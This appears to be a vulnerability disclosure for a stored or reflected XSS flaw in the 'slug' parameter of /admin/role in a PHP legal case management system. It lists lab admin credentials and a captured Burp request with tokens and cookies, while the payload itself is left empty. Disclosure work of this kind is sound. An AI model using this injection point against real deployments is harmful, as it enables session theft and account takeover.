

## Legal Case Management System

## XSS on `/admin/role`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/role
```

The parameter `slug` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/role HTTP/1.1
Host: 192.168.150.131
Content-Length: 413
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOHUm9y3xKJBRHMjS
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/role
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IkRlQlorZ0E5N2U4aXA1bzJKNlYrXC9RPT0iLCJ2YWx1ZSI6IjhUNzFxdVV2SU5vQmw0Wit3SFozZEVURHZQdUljY3RDRjY0RDI5XC9nbGJJY1NnbFU5azRGNU55aVpZaFZscnBsIiwibWFjIjoiMTFiYmFlMWFjYjZlYThkN2RjZmVlNDg3Mjg1OWU2OTg0NjQ2YTkzNmE0MjJiZGNkNzgzYjU2MzIzNDllZWU1YyJ9; test_session=eyJpdiI6IkNIWk9qaVVtN1cwRzZyaXo3RTE0Ync9PSIsInZhbHVlIjoidE5ncjlCOVU1amFHa1huWlhlQWxWNXBSd0NxSW9UTDNxMWpkb25OMWdYN29OU3NNcktiWnI3a3ZONFFIWFpLaCIsIm1hYyI6ImYyZjI0ODg0M2Y3YTc0MTA5NzI1YjRlZGY1OTIyNmUzYzdmZTEzZTFiYzgwMjUxMWNmOTY5MzQ0ZTI0NzNjOTMifQ%3D%3D
Connection: close

------WebKitFormBoundaryOHUm9y3xKJBRHMjS
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundaryOHUm9y3xKJBRHMjS
Content-Disposition: form-data; name="slug"


------WebKitFormBoundaryOHUm9y3xKJBRHMjS
Content-Disposition: form-data; name="description"

123
------WebKitFormBoundaryOHUm9y3xKJBRHMjS--

```

### Screenshot


